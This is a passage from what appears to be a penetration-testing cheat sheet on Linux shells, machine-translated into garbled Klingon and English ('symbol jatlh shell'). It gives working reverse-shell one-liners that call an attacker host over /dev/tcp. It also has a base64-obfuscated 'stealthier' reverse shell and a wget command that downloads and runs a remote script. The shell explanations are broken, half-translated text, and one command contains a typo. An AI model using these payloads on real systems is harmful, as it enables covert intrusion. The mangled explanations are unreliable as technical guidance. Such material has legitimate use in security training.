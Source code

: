 To access the symbol jatlh shell, you can use the following methods:

1. **Remote Access**: If you have remote access to a system, you can establish a connection to the symbol jatlh shell using SSH or Telnet protocols. This allows you to execute commands and interact with the system remotely.

2. **Local Access**: If you have physical access to a system, you can directly access the symbol jatlh shell by opening a terminal or console window. This allows you to execute commands and manage the system locally.

Once you have access to the symbol jatlh shell, you can leverage its capabilities to perform various tasks, such as:

- **Command Execution**: You can execute commands to perform specific actions on the system, such as running programs, manipulating files, or modifying system configurations.

- **File Management**: You can navigate through the file system, create, delete, or modify files and directories, and perform operations like copying, moving, or renaming files.

- **Process Management**: You can view and manage running processes, start or stop services, and monitor system resources.

- **Network Operations**: You can perform network-related tasks, such as configuring network interfaces, checking network connectivity, or troubleshooting network issues.

- **Privilege Escalation**: You can exploit vulnerabilities or misconfigurations to escalate your privileges and gain higher levels of access to the system.

It is important to note that the symbol jatlh shell should only be used for authorized purposes, such as ethical hacking or system administration. Unauthorized use or misuse of the shell can lead to legal consequences. Always ensure that you have proper authorization and follow ethical guidelines when using the symbol jatlh shell.
```bash
#If you need a more stable connection do:
bash -c 'bash -i >& /dev/tcp/<ATTACKER-IP>/<PORT> 0>&1'

#Stealthier method
#B64 encode the shell like: echo "bash -c 'bash -i >& /dev/tcp/10.8.4.185/4444 0>&1'" | base64 -w0
echo bm9odXAgYmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC44LjQuMTg1LzQ0NDQgMD4mMScK | base64 -d | bash 2>/dev/null
```
#### Shell explanation

1. **`bash -i`**: **`bash -i`** vItlhutlh interactive (`-i`) Bash shell.
2. **`>&`**: **`>&`** vItlhutlh **standard output** (`stdout`) je **standard error** (`stderr`) **redirect** **same destination**.
3. **`/dev/tcp/<ATTACKER-IP>/<PORT>`**: **`/dev/tcp/<ATTACKER-IP>/<PORT>`** **TCP connection** **specified IP address and port** **represents** **special file**.
* **output je error streams** **file** **redirect**, **command** **output** **interactive shell session** **attacker's machine** **effectively sends**.
4. **`0>&1`**: **`0>&1`** **standard input (`stdin`)** **same destination** **redirect**.

### Create in file and execute
```bash
echo -e '#!/bin/bash\nbash -i >& /dev/tcp/1<ATTACKER-IP>/<PORT> 0>&1' > /tmp/sh.sh; bash /tmp/sh.sh;
wget http://<IP attacker>/shell.sh -P /tmp; chmod +x /tmp/shell.sh; /tmp/shell.sh
```
## Forward Shell
